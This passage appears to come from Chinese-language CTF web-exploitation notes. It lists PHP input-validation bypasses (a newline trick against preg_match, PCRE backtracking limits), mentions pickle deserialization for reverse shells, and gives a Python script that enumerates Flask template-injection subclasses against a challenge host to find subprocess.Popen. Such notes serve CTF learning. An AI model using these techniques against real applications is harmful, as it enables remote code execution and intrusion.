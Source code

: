 ```js
    }

  }

};

xhr.onerror = function (e) {

  console.error(xhr.statusText);

};

xhr.send(params);
```

36. PHP会将传参中的空格( )、小数点(.)自动替换成下划线。例题:[[MRCTF2020]套娃](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BMRCTF2020%5D%E5%A5%97%E5%A8%83.md)
37. 以下代码可传入23333%0a绕过。可以说末尾加个%0a是绕过`^xxx$`这个格式的普遍解法，因为preg_match只能匹配一行数据，无法处理换行符。
```php
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

38.  php pcre回溯限制绕过preg_match。例题:[[FBCTF2019]RCEService](../../CTF/BUUCTF/Web/[FBCTF2019]RCEService.md)
39.  php basename特性+$_SERVER['PHP_SELF']使用+url解析特性。例题:[[Zer0pts2020]Can you guess it?](../../CTF/BUUCTF/Web/[Zer0pts2020]Can%20you%20guess%20it%3F.md)
40.  python pickle反序列化漏洞+jwt爆破secret key。例题:[bilibili](../../CTF/攻防世界/9级/Web/bilibili.md)。pickle也可以用来反弹shell。例题:[[watevrCTF-2019]Pickle Store](https://blog.csdn.net/mochu7777777/article/details/107589233)
41.  python flask模板注入脚本查找subprocess.Popen索引。

[来源](https://blog.csdn.net/mochu7777777/article/details/107589811)

```python
import requests 
import re 
import html 
import time 
index = 0 
for i in range(170, 1000): 
    try: 
        url = "http://e5df30ec-7e81-425e-b1cf-0988f6f9ae6f.node4.buuoj.cn:81/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}" 
        r = requests.get(url) 
        res = re.findall("<h2>You searched for:<\/h2>\W+<h3>(.*)<\/h3>", r.text) 
        time.sleep(0.1)
        # print(res) 
        # print(r.text) 
        res = html.unescape(res[0]) 
        print(str(i) + " | " + res) 
        if "subprocess.Popen" in res: 
            index = i 
            break 
    except: 
        continue
print("index of subprocess.Popen:" + str(index))
```
